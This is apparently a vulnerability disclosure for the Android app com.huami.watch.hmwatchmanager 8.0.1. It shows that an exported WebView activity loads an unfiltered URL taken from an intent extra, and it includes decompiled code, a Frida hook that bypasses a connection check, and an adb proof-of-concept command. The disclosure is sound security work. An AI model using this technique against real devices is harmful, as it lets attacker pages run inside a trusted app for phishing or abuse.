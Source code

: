 # com.huami.watch.hmwatchmanager

com.huami.watch.hmwatchmanager contains an export component JsSettingActivity, which allows an attacker to send a malicious URL and open it directly without any filtering or checking.

- package: com.huami.watch.hmwatchmanager
- version: 8.0.1
- url: https://os-android.liqucn.com/rj/691654.shtml

```xml
<activity android:theme="@style/FullScreenTheme" android:name="com.huami.applet.setting.JsSettingActivity" android:exported="true" android:launchMode="singleTask" android:screenOrientation="portrait">
    <intent-filter>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data android:scheme="zepp" android:host="auth-return"/>
    </intent-filter>
</activity>
```

```java
package com.huami.applet.setting;
public final class JsSettingActivity extends AppCompatActivity {
    @Override
    public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        setContentView(R.layout.applet_activity_setting);
        m137235R1();
        m137221f2(this);
        C59973c.m26748b().m26735o(this);
        getWindow().getDecorView().setSystemUiVisibility(8192);
        m137229X1();  // connection check
        m137225b2();  // loadurl
    }

    public final void m137229X1() {
        AbstractC60136b c60151l;
        AbstractC24641x m54387b = C44536a.f111890a.m54387b();
        boolean isConnected = m54387b != null ? m54387b.isConnected() : false;
        C73904a.m2827o("applet_core", new C12466c(isConnected));
        C73904a.m2827o("applet_core", C12467d.f23863a);
        if (isConnected) {
            c60151l = C60146i.f141578a;
        } else {
            m137220g2();    // show alert dialog, hook to bypass
            c60151l = new C60151l(C34840e0.f95609a);
        }
        if (c60151l instanceof C60146i) {
            AlertDialogFragment alertDialogFragment = this.f23854b;
            if (alertDialogFragment != null) {
                alertDialogFragment.dismissAllowingStateLoss();
            }
        } else if (!(c60151l instanceof C60151l)) {
            throw new C34851l();
        } else {
            ((C60151l) c60151l).m26487a();
        }
    }

    public final void m137225b2() {
        Intent intent = getIntent();
        String stringExtra = intent != null ? intent.getStringExtra("webUrl") : null;
        if (stringExtra != null) {
            m137232U1().loadUrl(stringExtra);
        }
        m137228Y1(C60138d.m26511e(this), getString(R.string.applet_net_error));
    }
```

Frida script to bypass connection check as I don't have a watch:

```js
Java.perform(function () { 
    var SomeClass = Java.use('com.huami.applet.setting.JsSettingActivity'); 
    SomeClass.g2.implementation = function(){
        console.log('connection check method is invoked');
    };
});
```

PoC:

```sh
$ adb shell am start -n com.huami.watch.hmwatchmanager/com.huami.applet.setting.JsSettingActivity -e "webUrl" "https://www.windows93.net"
```

![poc](./poc.png)
